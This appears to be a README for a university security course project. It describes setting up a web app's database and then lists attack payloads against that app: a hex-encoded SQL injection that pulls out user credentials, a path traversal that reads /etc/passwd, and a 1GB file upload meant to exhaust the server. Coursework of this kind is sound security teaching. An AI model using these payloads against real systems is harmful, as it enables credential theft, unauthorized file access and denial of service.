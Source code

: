 # csci4271-proj2
Let url be the path to access 443

# Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
enter "<url>/init_client/31/32"
- Adding a rule
enter "<url>/post-rule/init/admin/1"

# Payload: Inject SQL to extract all user credentials
payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
enter "<url>/init_client/${payload}/31"

# Inject '../' into the file path parameter to read unauthorized files
payload=$(echo "../../etc/passwd" | xxd -p)
enter "<url>/get_rule/${payload}"

# Generate a large file (1GB) and upload it
dd if=/dev/zero of=largefile.txt bs=1M count=1024
curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"

